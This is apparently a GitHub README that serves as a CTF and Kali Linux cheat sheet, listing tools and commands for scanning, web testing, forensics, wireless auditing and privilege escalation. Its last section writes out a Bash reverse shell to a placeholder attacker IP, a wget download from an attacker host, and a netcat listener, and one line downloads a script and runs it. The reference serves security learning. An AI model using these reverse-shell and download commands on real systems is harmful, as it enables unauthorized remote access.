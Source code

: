 # CTF Tools and Commands
<img src="/src/hi.webp" align = "center">

---

## 🔥 Kali Linux Tools and Commands

This repository contains a collection of useful tools and commands for Kali Linux, categorized based on their usage in penetration testing, cybersecurity, and ethical hacking.

---

## 📌 Table of Contents

1. [🐧 Basic Linux Commands](#-basic-linux-commands)
2. [🌍 Network Scanning & Enumeration](#-network-scanning--enumeration)
3. [🔓 Web Exploitation Tools](#-web-exploitation-tools)
4. [🕵️‍♂️ Forensics & Steganography](#-forensics--steganography)
5. [📡 Wireless Attacks](#-wireless-attacks)
6. [🎭 Privilege Escalation](#-privilege-escalation)
7. [📂 File Transfer & Reverse Shells](#-file-transfer--reverse-shells)
8. [🎯 Tool Downloads](#-tool-downloads)

---

## 🐧 Basic Linux Commands

These are fundamental Linux commands every Kali Linux user should know.

| Command | Description |
| ------- | -------------------------------- |
| `cd` | Change directory |
| `ls` | List files and directories |
| `pwd` | Print current working directory |
| `cp` | Copy files or directories |
| `mv` | Move or rename files and directories |
| `rm` | Remove files or directories |
| `cat` | View file content |
| `echo` | Print text to terminal or file |
| `chmod` | Change file permissions |
| `chown` | Change file ownership |
| `find` | Search for files and directories |
| `grep` | Search for patterns inside files |

---

## 🌍 Network Scanning & Enumeration

| Tool | Description | Command |
| --------------- | ------------------------------------------ | ------------------------- |
| **Nmap** | Network scanning & vulnerability detection | `nmap [options] [target]` |
| **Netcat** | Network debugging and port scanning | `nc -l -p [port]` |
| **Wireshark** | GUI-based network protocol analyzer | `wireshark` |
| **Tcpdump** | CLI-based network packet capture tool | `tcpdump -i eth0` |
| **Masscan** | Fast port scanner | `masscan -p1-65535 [target]` |

---

## 🔓 Web Exploitation Tools

| Tool | Description | Command |
| -------------- | -------------------------------- | ------------------------ |
| **Burp Suite** | Web security testing framework | `burpsuite` |
| **Nikto** | Web server vulnerability scanner | `nikto -h [target]` |
| **SQLmap** | Automated SQL injection tool | `sqlmap -u [target_url]` |
| **Gobuster** | Directory and file brute-forcing | `gobuster dir -u [URL]` |
| **WFUZZ** | Web application brute-forcing | `wfuzz -c -z file,wordlist.txt --hc 404 [URL]/FUZZ` |

---

## 🕵️‍♂️ Forensics & Steganography

| Tool | Description | Command |
| ------------ | -------------------------------------- | -------------------- |
| **Exiftool** | Extract metadata from images and files | `exiftool [file]` |
| **Binwalk** | Analyze and extract firmware images | `binwalk -e [file]` |
| **Foremost** | File recovery based on headers | `foremost -i [file]` |
| **Steghide** | Hide/extract data in images | `steghide embed -cf image.jpg -ef secret.txt` |
| **Aperisolve** | Online steganography analysis | [🔗 Visit](https://www.aperisolve.com/) |

---

## 📡 Wireless Attacks

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **Aircrack-ng** | Wireless security auditing | `airmon-ng start wlan0` |
| **Kismet** | Wireless network discovery | `kismet` |
| **Reaver** | WPS attack tool | `reaver -i wlan0 -b [BSSID] -vv` |
| **Fern Wifi Cracker** | GUI for wireless auditing | `fern-wifi-cracker` |

---

## 🎭 Privilege Escalation

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **LinPEAS** | Linux privilege escalation checker | `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh` |
| **Windows-Exploit-Suggester** | Windows privilege escalation tool | `python windows-exploit-suggester.py --update` |
| **GTFOBins** | Find binaries useful for privilege escalation | [🔗 Visit](https://gtfobins.github.io/) |

---

## 📂 File Transfer & Reverse Shells

| Command | Description |
| --------------- | ------------------------------------------ |
| `scp file user@host:/path/to/destination` | Securely copy files via SSH |
| `wget http://[attacker_ip]/file -O /tmp/file` | Download a file using wget |
| `nc -lvnp 4444` | Start a netcat listener |
| `bash -i >& /dev/tcp/[attacker_ip]/4444 0>&1` | Reverse shell via Bash |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell to an interactive TTY |

---

## 🎯 Tool Downloads

- **Nmap**: [Download](https://nmap.org/download.html)
- **Wireshark**: [Download](https://www.wireshark.org/download.html)
- **SQLmap**: [Download](https://github.com/sqlmapproject/sqlmap)
- **Steghide**: [Download](http://steghide.sourceforge.net/download.php)
- **Burp Suite**: [Download](https://portswigger.net/burp/communitydownload)

---

## 🤝 Contributing

If you want to contribute, feel free to open an issue or submit a pull request.

💌 Contact: 
[Email](khairulislamtushar33@gmail.com)
[GitHub](https://github.com/Ki6uiPar1na)

---

🚀 **Happy Hacking! Stay Ethical.** 🛡️

